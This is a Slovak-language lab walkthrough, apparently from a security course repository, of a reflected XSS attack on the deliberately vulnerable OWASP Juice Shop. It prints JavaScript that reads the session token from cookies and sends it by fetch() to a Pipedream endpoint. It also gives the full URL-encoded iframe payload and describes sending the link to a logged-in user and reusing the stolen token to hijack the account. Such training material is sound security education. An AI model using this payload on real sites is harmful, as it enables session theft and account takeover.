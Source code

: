 # Reflected cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Po spustení aplikácie a zaregistrovaní sa prejdeme do sekcii v menu "Objednávky a platby".
- V url sa nám zobrazujú objednávky podľa parametru id. V detaile objednávky vidíme informácie o stave a id objednávky vložené z url parametru.
- Takáto konštrukcia má potencionálnu zraniteľnosť a to, že vpisujeme neoverený vstup priamo do DOM stránky.
- V zdrojovom kóde juice-shopu v komponente track-result.component.html (angular komponent) je hodnota id vkladaná do DOM cez zraniteľnú metódu "innerHTML". To nám v prípade neoverenia vstupu umožňuje aplikovať reflektovaný XSS útok.
- Do url parametru môžeme vložiť škodlivý kód a ten bude priamo vložený do tela stránky.
  ```
          const headers = new Headers();
          headers.append("Content-Type", "text/plain");

          const body = {
          test: "event",
          };

          const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: document.cookie.split("")[4].split("=")[1],
          };

        // Doplnit endpoint vygenerovany sluzbou Pipedream
        fetch("pipedream-endpoint", options); 
- Kód vytvorí HTTP požiadavku na daný endpoint a odošle autentifikačný token z cookie súborov. 
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvoríme
    nový projekt. Po vytvorení projketu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do hášho kódu.
- Kód musíme vložiť do atribútu "src" značky "iframe" aby ho stránka vedeľa vyhodnotiť.

   ```
   <iframe src="javascript:......" />
  ```
- Kód ešte potrebujeme zakódovať tak, aby ho prehliadač vedel prijať ako validný parameter (online enkóder a dekóder - https://www.urlencoder.org/). Zakodovanú url vložíme do parametru id a spustíme. Celá url môže vyzerať nasledovne:

         http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E">
              http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E"

- Skopírovanú url môžeme poslať používateľovi a v prípade, že je používateľ prihláseny v systéme, odošle na náš endpoint jeho autentifikačný token.
- Získaný token vložíme do lokálneho úložiska aplikácie a týmto spôsobom sa prihlásme do účtu používateľa.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/reflected-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/reflected-xss.mp4)
